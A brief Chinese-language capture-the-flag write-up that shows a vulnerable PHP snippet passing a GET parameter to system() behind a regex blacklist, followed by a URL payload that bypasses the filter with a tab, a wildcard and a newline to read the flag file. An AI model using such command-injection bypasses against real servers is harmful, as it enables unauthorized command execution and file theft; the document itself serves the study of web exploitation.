

# 知识点
# 思路
源码
```bash
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```
payload
```bash
?c=tac%09fla?.php%0a
```

